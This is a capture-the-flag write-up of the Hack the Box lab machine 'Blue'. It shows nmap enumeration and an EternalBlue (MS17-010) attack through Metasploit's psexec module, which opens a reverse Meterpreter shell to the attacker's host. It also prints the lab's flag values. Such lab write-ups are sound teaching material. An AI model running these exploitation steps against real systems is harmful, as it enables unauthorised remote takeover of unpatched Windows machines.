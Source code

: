 ```yaml
---
title: Blue, Hack the Box CTF Walkthrough
lead: Exploiting the MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution Vulnerability
categories: CTF
image: /assets/img/posts/2021-03-04-blue-hack-the-box-walkthrough/blue.png
layout: post
description: ""
date:   2021-03-03 20:01:21 -0400
last-updated: 2021-03-03 20:01:21 -0400
categories: ctf
author: Tyler Butler
description: Blue is an easy level machine in the Hack the Box retired archives requiring simple enumeration and basic level understanding of metasploit
card: card-2
navheader: posts
---
```


Blue is an easy level machine in the Hack the Box retired archives. This machine requires a simple enumeration scan to identify services and versions, and knowledge of using pre-configured metasploit modules to exploit a well-known vulnerability. The title of this box should be a major clue to what vulnerabilities might exist. 

## Enumeration  

First, I used nmap and the nmapAutomator script to search the target for open ports, running services, and their corresponding service versions. 

```bash
┌──(kali㉿kali)-[~/Documents/htb/blue]
└─$ nmapAutomator.sh 10.10.10.226 All
```  

```bash
┌──(kali㉿kali)-[~/Documents/htb/blue]
└─$ sudo nmap -sV -A -O --top-ports 200 10.10.10.40                                                                                                    1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 15:24 EST
Nmap scan report for 10.10.10.40
Host is up (0.055s latency).
Not shown: 191 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```

The resulting output shows the target was running windows microsoft-ds,netbios, and msrpc. I had a feeling this machine was vulnerable to eternal blue due to the box title. To check my assumption, I opened up metasploit and used a `check` option in one of the ms17_010 related modules. After setting the RHOST to the target, the check revealed it was likely vulnerable. 

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
msf6 exploit(windows/smb/ms17_010_psexec) > 
```

## Selecting a Public Exploit  

There are a few metasploit modules which can be used to root a machine vulnerable to eternal blue, i decided to use the `windows/smb/ms17_010_psexec` module. After opening the msfconsole, and selecting the psexec module, I configured the options to use the target as the RHOST and my machine as the LHOST. Running the exploit was successful.

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.40:49161) at 2021-03-04 15:11:16 -0500

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

## Finding Flags  

I stayed in the meterpreter shell to navigate the target and search for flags. Using the search meterpreter command, I found both the user and root flag files.

```bash
meterpreter > search -f *user.txt*
Found 3 results...
    c:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\user.txt.lnk (909 bytes)
    c:\Users\haris\AppData\Roaming\Microsoft\Windows\Recent\user.txt.lnk (556 bytes)
    c:\Users\haris\Desktop\user.txt (32 bytes)
meterpreter > type "c:\Users\haris\Desktop\user.txt"
[-] Unknown command: type.
meterpreter > cat "c:\Users\haris\Desktop\user.txt"
4c546aea7dbee75cbd71de245c8deea9meterpreter > 
```  

```bash
meterpreter > search -f "root.txt"
Found 1 result...
    c:\Users\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "c:\Users\Administrator\Desktop\root.txt"
ff548eb71e920ff6c08843ce9df4e717meterpreter > 
```
